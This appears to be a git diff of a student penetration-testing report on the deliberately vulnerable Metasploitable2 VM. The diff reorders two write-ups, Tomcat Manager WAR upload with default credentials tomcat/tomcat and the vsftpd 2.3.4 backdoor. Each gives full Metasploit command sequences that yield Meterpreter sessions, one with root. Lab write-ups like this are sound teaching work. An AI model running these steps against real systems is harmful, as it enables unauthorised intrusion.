

final

diff --git a/networking/network-security/Metasploitable.md b/networking/network-security/Metasploitable.md
@@ -38,15 +38,15 @@ These services were subsequently investigated and exploited where applicable.
 
 ---
 
-# Exploit 1 – vsftpd 2.3.4 Backdoor
+# Exploit 1 – Apache Tomcat Manager Upload Code Execution
 
 ## Service / Port
 
-**FTP — Port 21**
+**Apache Tomcat — Port 8180**
 
 ## Vulnerability
 
-The target was running **vsftpd 2.3.4**, a version associated with a malicious backdoor that can provide remote command execution.
+The Apache Tomcat Manager application was accessible using default credentials, allowing a WAR file to be uploaded and executed.
 
 ## Tool Used
 
@@ -55,64 +55,67 @@ The target was running **vsftpd 2.3.4**, a version associated with a malicious b
 **Exploit module:**
 
 ```text
-exploit/unix/ftp/vsftpd_234_backdoor
+exploit/multi/http/tomcat_mgr_upload
 ```
 
 ## Why This Tool Was Appropriate
 
-Metasploit was appropriate because it provides a dedicated exploit module for the vsftpd 2.3.4 backdoor. The module automates the process of connecting to the vulnerable FTP service and triggering the backdoor.
+The Metasploit module is specifically designed to exploit the Tomcat Manager application by authenticating to the management interface and uploading a malicious WAR file.
 
 ## Steps
 
-First, the target service was identified with Nmap:
+Nmap was used to identify the Tomcat service:
 
 ```bash
 nmap -sV 10.0.2.3
 ```
 
-SearchSploit was then used to investigate the available vsftpd vulnerabilities.
-
-```bash
-searchsploit vsftpd 2.3.4
-```
-
-Metasploit was started:
-
-```bash
-msfconsole
-```
-
-The exploit was searched for:
+The Tomcat Manager exploit was selected:
 
 ```text
-search vsftpd 2.3.4
+use exploit/multi/http/tomcat_mgr_upload
 ```
 
-The exploit module was selected:
-
-```text
-use exploit/unix/ftp/vsftpd_234_backdoor
-```
-
-The target IP was configured:
+The target was configured:
 
 ```text
 set RHOSTS 10.0.2.3
+set RPORT 8180
 ```
 
-The local attacker IP was configured:
+The Manager path was configured:
+
+```text
+set TARGETURI /manager
+```
+
+The Tomcat credentials were configured:
+
+```text
+set USERNAME tomcat
+set PASSWORD tomcat
+```
+
+The attacker machine was configured:
 
 ```text
 set LHOST 10.0.2.15
+set LPORT 4444
 ```
 
-The exploit was launched:
+The target was checked:
+
+```text
+check
+```
+
+The exploit was executed:
 
 ```text
 exploit
 ```
 
-A Meterpreter session was successfully obtained.
+A Meterpreter session was obtained.
 
 The session was verified using:
 
@@ -128,25 +131,27 @@ sysinfo
 pwd
 ```
 
-The session provided root-level access to the target.
-
 ## Evidence
 
-[View exploit1.png](evidence/exploit1.png)
+[View exploit6.png](evidence/exploit6.png)
 
 ## Cyber Kill Chain Stages
 
-* **Reconnaissance:** Nmap identified the FTP service and version.
-* **Weaponization:** The Metasploit vsftpd 2.3.4 backdoor module was selected and configured.
-* **Delivery:** The exploit was sent to the vulnerable FTP service.
-* **Exploitation:** The vsftpd backdoor was triggered.
-* **Installation:** A Meterpreter session was established.
-* **Command & Control:** The attacker controlled the target through the Meterpreter session.
-* **Actions on Objectives:** Commands such as `getuid`, `sysinfo`, and `pwd` were executed.
+* **Reconnaissance**
+* **Weaponization**
+* **Delivery**
+* **Exploitation**
+* **Installation**
+* **Command & Control**
+* **Actions on Objectives**
 
 ## Outcome / Impact
 
-The exploit successfully resulted in a **root-level Meterpreter session**. The target was identified as Ubuntu 8.04 running Linux kernel `2.6.24-16-server` on an i686 architecture.
+A Meterpreter session was successfully established as the **tomcat55** user.
+
+The target was identified as Linux `2.6.24-16-server` on i386 architecture.
+
+The session did not provide root privileges.
 
 ---
 
@@ -549,16 +554,15 @@ The connection provided a **root shell** directly on the target.
 The result demonstrates the serious risk of exposing an unauthenticated root command shell on a network service.
 
 ---
-
-# Exploit 6 – Apache Tomcat Manager Upload Code Execution
+# Exploit 6 – vsftpd 2.3.4 Backdoor
 
 ## Service / Port
 
-**Apache Tomcat — Port 8180**
+**FTP — Port 21**
 
 ## Vulnerability
 
-The Apache Tomcat Manager application was accessible using default credentials, allowing a WAR file to be uploaded and executed.
+The target was running **vsftpd 2.3.4**, a version associated with a malicious backdoor that can provide remote command execution.
 
 ## Tool Used
 
@@ -567,67 +571,64 @@ The Apache Tomcat Manager application was accessible using default credentials, 
 **Exploit module:**
 
 ```text
-exploit/multi/http/tomcat_mgr_upload
+exploit/unix/ftp/vsftpd_234_backdoor
 ```
 
 ## Why This Tool Was Appropriate
 
-The Metasploit module is specifically designed to exploit the Tomcat Manager application by authenticating to the management interface and uploading a malicious WAR file.
+Metasploit was appropriate because it provides a dedicated exploit module for the vsftpd 2.3.4 backdoor. The module automates the process of connecting to the vulnerable FTP service and triggering the backdoor.
 
 ## Steps
 
-Nmap was used to identify the Tomcat service:
+First, the target service was identified with Nmap:
 
 ```bash
 nmap -sV 10.0.2.3
 ```
 
-The Tomcat Manager exploit was selected:
+SearchSploit was then used to investigate the available vsftpd vulnerabilities.
 
-```text
-use exploit/multi/http/tomcat_mgr_upload
+```bash
+searchsploit vsftpd 2.3.4
 ```
 
-The target was configured:
+Metasploit was started:
+
+```bash
+msfconsole
+```
+
+The exploit was searched for:
+
+```text
+search vsftpd 2.3.4
+```
+
+The exploit module was selected:
+
+```text
+use exploit/unix/ftp/vsftpd_234_backdoor
+```
+
+The target IP was configured:
 
 ```text
 set RHOSTS 10.0.2.3
-set RPORT 8180
 ```
 
-The Manager path was configured:
-
-```text
-set TARGETURI /manager
-```
-
-The Tomcat credentials were configured:
-
-```text
-set USERNAME tomcat
-set PASSWORD tomcat
-```
-
-The attacker machine was configured:
+The local attacker IP was configured:
 
 ```text
 set LHOST 10.0.2.15
-set LPORT 4444
 ```
 
-The target was checked:
-
-```text
-check
-```
-
-The exploit was executed:
+The exploit was launched:
 
 ```text
 exploit
 ```
 
-A Meterpreter session was obtained.
+A Meterpreter session was successfully obtained.
 
 The session was verified using:
 
@@ -643,29 +644,27 @@ sysinfo
 pwd
 ```
 
+The session provided root-level access to the target.
+
 ## Evidence
 
-[View exploit6.png](evidence/exploit6.png)
+[View exploit1.png](evidence/exploit1.png)
 
 ## Cyber Kill Chain Stages
 
-* **Reconnaissance**
-* **Weaponization**
-* **Delivery**
-* **Exploitation**
-* **Installation**
-* **Command & Control**
-* **Actions on Objectives**
+* **Reconnaissance:** Nmap identified the FTP service and version.
+* **Weaponization:** The Metasploit vsftpd 2.3.4 backdoor module was selected and configured.
+* **Delivery:** The exploit was sent to the vulnerable FTP service.
+* **Exploitation:** The vsftpd backdoor was triggered.
+* **Installation:** A Meterpreter session was established.
+* **Command & Control:** The attacker controlled the target through the Meterpreter session.
+* **Actions on Objectives:** Commands such as `getuid`, `sysinfo`, and `pwd` were executed.
 
 ## Outcome / Impact
 
-A Meterpreter session was successfully established as the **tomcat55** user.
-
-The target was identified as Linux `2.6.24-16-server` on i386 architecture.
-
-The session did not provide root privileges.
-
+The exploit successfully resulted in a **root-level Meterpreter session**. The target was identified as Ubuntu 8.04 running Linux kernel `2.6.24-16-server` on an i686 architecture.
 ---
+
 
 # Exploit 7 – Java RMI Server Insecure Configuration
 
@@ -1034,7 +1033,7 @@ The session provided root-level access.
 
 ## Outcome / Impact
 
-The repeated exploit successfully produced a **root-level Meterpreter session** on the Metasploitable2 target.
+The exploit successfully produced a **root-level Meterpreter session** on the Metasploitable2 target.
 
 The target was identified as Ubuntu 8.04 running Linux `2.6.24-16-server` on i686 architecture.
 
